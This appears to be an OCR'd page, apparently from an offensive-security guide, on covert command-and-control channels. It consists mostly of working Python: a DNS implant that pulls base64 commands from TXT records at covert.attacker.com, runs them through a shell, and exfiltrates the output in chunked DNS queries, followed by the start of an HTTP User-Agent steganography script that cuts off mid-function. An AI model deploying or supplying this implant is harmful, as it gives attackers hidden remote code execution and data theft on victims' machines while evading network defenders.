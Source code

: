 **What covert channels provide:** Hidden communication methods that disguise command and control traffic within legitimate protocols or data streams.

```bash
# DNS covert channel implementation
cat > dns_covert.py << 'EOF'
#!/usr/bin/env python3
import dns.resolver
import base64
import time
import subprocess

def send_data(data, domain):
    """Send data via DNS queries"""
    encoded = base64.b64encode(data.encode()).decode()
    # Split into DNS-safe chunks
    chunks = [encoded[i:i+60] for i in range(0, len(encoded), 60)]
    
    for i, chunk in enumerate(chunks):
        query = f"{i:03d}.{chunk}.{domain}"
        try:
            dns.resolver.resolve(query, 'A')
        except:
            pass
        time.sleep(1)

def receive_commands(domain):
    """Receive commands via DNS TXT records"""
    while True:
        try:
            result = dns.resolver.resolve(f"cmd.{domain}", 'TXT')
            for txt in result:
                command = base64.b64decode(str(txt).strip('"')).decode()
                output = subprocess.check_output(command, shell=True, stderr=subprocess.STDOUT)
                send_data(output.decode(), domain)
        except:
            pass
        time.sleep(60)

# Usage
receive_commands("covert.attacker.com")
EOF

# HTTP steganography covert channel
cat > http_steganography.py << 'EOF'
#!/usr/bin/env python3
import requests
import base64
import time

def hide_in_user_agent(data):
    """Hide data in User-Agent string"""
    legitimate_agents = [
        "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36",
        "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15",
        "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36"
    ]
    
    # Embed data in User-Agent
    agent = legitimate_agents[0]
    encoded_data = base64.b64encode(data.encode()).decode()
    # Hide in version number
    modified_agent = agent.replace("537.36", f"537.{encoded_data[:6]}")
    
```